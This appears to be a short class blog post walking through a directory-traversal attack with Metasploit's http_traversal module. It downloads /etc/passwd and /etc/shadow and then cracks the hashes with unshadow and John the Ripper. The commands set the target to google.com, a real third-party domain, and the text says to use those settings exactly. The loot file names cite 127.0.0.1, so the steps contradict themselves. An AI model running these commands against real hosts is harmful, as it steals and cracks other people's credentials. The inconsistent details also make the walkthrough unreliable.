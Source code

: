 ```yaml
---
layout: post
title:  "Blog 4: Cracking Directory Passwords"
date:   2021-03-26 01:51:40 -0700
categories: Blog Class
---
```


The Metasploit auxiliary module that you can use requires a file list to know which files to download from the compromised system. We are using the URL encoding to replace "/" with "%2f":

    cat > files.txt
    etc%2fpasswd
    etc%2fshadow


Next, let's select the Generic HTTP Directory Traversal Utility module. It checks the targets for the directory traversal vulnerability, and depending on the selected option, can download specific files or check if it is possible to write files outside of the www directory. Select the module as follows:

	    msfconsole ---- to start the metasploit platform
      use auxiliary/scanner/http/http_traversal

The first two that you need to complete are: 

   `1) RHOSTS` for remote (target) host(s) and RPORT for the target port (which is set to 80 by default). 
   `2) TRIGGER` is for the path that triggers the vulnerability, 
   `3) ACTION` which in our case is DOWNLOAD
   `4) FILELIST` which specifies the list of files to download. 
   
   Set the options exactly as shown below: 
   
      set RHOSTS google.com

      set RPORT 8080

      set TRIGGER ..%2f..%2f..%2f..%2f..%2f..%2f..%2f

      set ACTION DOWNLOAD

      set FILELIST files.txt
      
Use `unshadow` as follows, specifying files downloaded by the Metasploit module. The format is unshadow PASSWDFILE SHADOWFILE, in that order, so make sure you are entering the correct file names. The yyyymmddhhmmss part is the timestamp, and xxxxxx and yyyyyy are numeric identifiers, which will be different for the* /etc/passwd* and /etc/shadow. We are saving the new file as passwords.

    sudo unshadow .msf4/loot/*yyyymmddhhmmss*_default_127.0.0.1_lfi.data_*xxxxxx*.txt  .msf4/loot/*yyyymmddhhmmss*_default_127.0.0.1_lfi.data_*yyyyyy*.txt > passwords

Let's view the new file and it should contain the uncracked passwords.

    cat passwords

Issue the following command to use John The Ripper with our passwords file to crack the passwords and done:

	sudo john passwords


